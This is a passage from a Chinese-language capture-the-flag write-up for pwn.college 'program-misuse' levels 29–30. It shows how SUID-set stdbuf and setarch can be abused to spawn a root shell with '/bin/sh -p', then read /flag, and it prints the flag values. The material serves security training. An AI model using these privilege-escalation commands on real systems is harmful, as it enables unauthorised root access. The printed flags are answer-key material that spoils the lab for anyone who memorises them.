 ```
# cat /flag
pwn.college{sWxHBmerdB7TO79CXDlkRtygh4x.0FM3EDL2QjMyMzW}
#
```
这个需要注意指定一个时间

## level29 Enables you to read flags by making them execute other commands!
```
hacker@program-misuse-level-29:~$ sh file.sh
Welcome to ./babysuid_level29!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/stdbuf.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level29) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/stdbuf!
```
`stdbuf`工具：修改标准流的缓冲模式和大小
```
hacker@program-misuse-level-29:~$ stdbuf --input=512K /bin/sh -p
# cat /flag
pwn.college{IHf3mOmt5d10g3StOZp5S0AMAfJ.0VM3EDL2QjMyMzW}
#
```
别用man，真的不好用

## level30 Enables you to read flags by making them execute other commands!
```
hacker@program-misuse-level-30:~$ sh file.sh
Welcome to ./babysuid_level30!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/setarch.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level30) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/setarch!
```
`setarch`工具: 改变架构的工具
```
hacker@program-misuse-level-30:~$ setarch i386 /bin/sh -p
# cat /flag
pwn.college{08T2qH86iHnjvFJb-5bmU9C5kJt.0lM3EDL2QjMyMzW}
#
```
它这个说默认是/bin/sh，可以切i386，在man里写着呢
